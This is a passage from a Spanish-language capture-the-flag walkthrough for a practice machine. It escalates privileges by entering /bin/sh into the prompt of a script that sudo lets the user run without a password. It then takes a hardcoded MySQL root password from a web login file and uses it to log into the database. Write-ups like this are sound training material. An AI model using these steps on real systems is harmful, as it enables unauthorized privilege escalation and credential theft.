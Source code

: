 Una vez con una terminal con el user www-data. Utilizar el sudo -l.

```bash
www-data@ip-10-10-104-194:/home/apaar$ sudo -l
```
```bash
Matching Defaults entries for www-data on ip-10-10-104-194:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-104-194:
    (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh
```
Se puede usar el user appar para ejecutar con sudo el /home/apaar/.helpline.sh sin contraseña. Al ejecutar, en las opciones de escribir, escribir /bin/sh : 
```bash
Welcome to helpdesk. Feel free to talk to anyone at any time!

Enter the person whom you want to talk with: /bin/sh
/bin/sh
Hello user! I am /bin/sh,  Please enter your message: /bin/sh
/bin/sh
```
Y ya eres apaar. En su home el local.txt es una flag.

## Escalar a otro user

Buscar en la ruta /var/www/ en busca de algo. Esta la carpeta files, de aqui interesa el index.php, la web tenia un login.

```bash
<?php
        if(isset($_POST['submit']))
        {
                $username = $_POST['username'];
                $password = $_POST['password'];
                ob_start();
                session_start();
                try
                {
                        $con = new PDO("mysql:dbname=webportal;host=localhost","root","!@m+her00+@db");
                        $con->setAttribute(PDO::ATTR_ERRMODE,PDO::ERRMODE_WARNING);
                }

```
Dentro hay una contraseña para el user root en la base de datos.

Entrae en la base de datos. Poner la password de antes

```bash
mysql -u root -p
```

```bash
mysql>    SHOW DATABASES;
   SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| webportal          |
+--------------------+
5 rows in set (0.01 sec)

```